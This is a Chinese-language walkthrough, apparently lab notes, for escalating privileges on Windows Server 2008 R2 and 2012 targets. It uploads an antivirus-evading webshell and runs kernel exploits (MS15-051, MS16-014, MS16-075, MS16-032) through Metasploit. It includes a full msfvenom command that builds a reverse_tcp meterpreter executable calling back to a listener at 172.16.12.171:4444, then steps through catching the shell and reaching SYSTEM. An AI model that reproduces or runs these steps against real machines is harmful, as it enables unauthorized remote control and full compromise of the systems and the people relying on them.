

# 2008系统提权

靶机系统为 Windows 2008 r2

直接上传 as免杀马

Base64编码链接

 

 

 

Systeminfo

查看系统信息

 

Whoami查看 权限为web

 

用as上传cve提权执行文件，cmd命令行dir查看

 

运行程序的时候，后面直接接命令，具体可以自己查看脚本文件

 

 

 

#ms15-051

#MS16_014

kali打开终端，生成木马 .exe

msfvenom -p windosw/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=4444 -f exe -o sf.exe

用蚁剑上传木马.exe

查看设置 options

设置payload 

设置lhost  0.0.0.0   监听所有端口 

设置lport			

运行 攻击模块  exploit -j-z 

蚁剑在上传木马的文件夹下运行终端   执行木马文件，收到会话

bg  设置为背景，

下面准备提权，search ms16_14

use  0  按 id为0的设置

设置payload 与上面监听的payload的一致，查看配置options

设置会话1  设置 lhost  ，设置 端口 区别于上面的监听端口 ，run  开始提权

sessions 查看  使用会话2  getuid  ，已经提升权限为system

2012

同上，蚁剑上传msf马，打开监听端口后，蚁剑运行msf马，反弹shell成功，

getuid

sysinfo

#MS16_075

#MS16_032

